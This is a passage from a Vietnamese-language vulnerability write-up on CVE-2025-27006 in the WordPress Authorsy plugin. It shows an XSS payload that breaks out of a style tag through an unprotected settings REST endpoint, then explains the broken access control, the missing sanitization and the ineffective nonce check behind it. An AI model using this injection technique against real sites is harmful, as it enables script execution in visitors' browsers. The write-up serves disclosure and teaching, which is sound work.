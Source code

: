 Ta đóng thẻ `<style>` (CSS trong head) và inject thêm thẻ `<script>` chứa XSS payload.

Truy cập một trang bất kỳ

![XSS](xss.png "XSS payload injected via custom CSS")

👉 XSS thành công, **inspect** để xem code được thay đổi như nào

```html
<style>
    :root { 
        --ea-color-main: </style><script>alert(document.domain)</script><style>;  
    } 
</style>
```

---

## Conclusion

Lỗ hổng `CVE-2025-27006` trong plugin **Authorsy <= 1.0.5** là một ví dụ điển hình về **Broken Access Control** kết hợp với **XSS**. Nguyên nhân chính là:

1. **REST API** không kiểm soát quyền truy cập: bất kỳ user nào cũng có thể gọi `/wp-json/authorsy/v1/settings` để thay đổi các option.
2. **CSS** tùy chỉnh chưa được **sanitize**: giá trị CSS được chèn trực tiếp vào `<style>` trong `<head>`, cho phép kẻ tấn công inject payload `<script>` thông qua CSS.
   Nonce không được xử lý đúng: **verify_nonce** chỉ trả về **WP_Error** mà không ngăn code thực thi, khiến việc kiểm tra bảo mật gần như vô hiệu.

**Key takeaways**:

* **REST API** cần kiểm soát quyền: luôn sử dụng `permission_callback` hợp lý để ngăn **Broken Access Control**.
* Sanitize dữ liệu người dùng trước khi render trong HTML/CSS/JS để phòng **XSS**.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[ WordPress Authorsy Plugin <= 1.0.5 is vulnerable to Cross Site Scripting (XSS) ](https://patchstack.com/database/wordpress/plugin/authorsy/vulnerability/wordpress-authorsy-plugin-1-0-5-cross-site-scripting-xss-vulnerability)

---


